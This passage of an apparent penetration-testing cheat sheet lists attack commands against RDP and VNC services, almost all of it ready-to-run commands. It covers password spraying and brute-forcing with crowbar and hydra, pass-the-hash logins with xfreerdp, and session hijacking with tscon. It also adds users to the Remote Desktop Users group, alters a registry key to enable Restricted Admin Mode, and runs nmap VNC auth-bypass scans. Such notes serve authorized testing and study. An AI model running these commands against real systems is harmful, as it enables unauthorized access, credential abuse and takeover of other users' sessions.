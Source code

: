 ```
rdesktop -u <USERNAME> <IP>
rdesktop -d <DOMAIN> -u <USERNAME> -p <PASSWORD> <IP>

xfreerdp /u:[DOMAIN\]<USERNAME> /p:<PASSWORD> /v:<IP>
xfreerdp /u:[DOMAIN\]<USERNAME> /pth:<HASH> /v:<IP>
```

### Session stealing

#### Get openned sessions

```
query user
```

#### Access to the selected

```
tscon <ID> /dest:<SESSIONNAME>
```

### Adding user to RDP group (Windows)

```
net localgroup "Remote Desktop Users" <USER> /add
```

### Attacking RDP

| **Command**                                                                                                                                                    | **Description**                                                                 |
| -------------------------------------------------------------------------------------------------------------------------------------------------------------- | ------------------------------------------------------------------------------- |
| `crowbar -b rdp -s 192.168.220.142/32 -U users.txt -c 'password123'`                                                                                           | Password spraying against the RDP service.                                      |
| `hydra -L usernames.txt -p 'password123' 192.168.2.143 rdp`                                                                                                    | Brute-forcing the RDP service.                                                  |
| `rdesktop -u admin -p password123 192.168.2.143`                                                                                                               | Connect to the RDP service using `rdesktop` in Linux.                           |
| `tscon #{TARGET_SESSION_ID} /dest:#{OUR_SESSION_NAME}`                                                                                                         | Impersonate a user without its password. SESSION HIJACKING                      |
| `net start sessionhijack`                                                                                                                                      | Execute the RDP session hijack.                                                 |
| `crackmapexec smb IP -u USER -H NTLMHASH --local-auth -x 'reg add HKLM\System\CurrentControlSet\Control\Lsa /t REG_DWORD /v DisableRestrictedAdmin /d 0x0 /f'` | Add DisableRestrictedAdmin reg key via cme                                      |
| `reg add HKLM\System\CurrentControlSet\Control\Lsa /t REG_DWORD /v DisableRestrictedAdmin /d 0x0 /f`                                                           | Enable "Restricted Admin Mode" on the target Windows host.                      |
| `xfreerdp /v:192.168.2.141 /u:admin /pth:A9FDFA038C4B75EBC76DC855DD74F0DA`                                                                                     | Use the Pass-The-Hash technique to login on the target host without a password. |

---

## VNC - 5800 - 58001 - 5900 - 5901

### Scans

```
nmap -sV --script vnc-info,realvnc-auth-bypass,vnc-title -v -p <PORT> <IP>
```
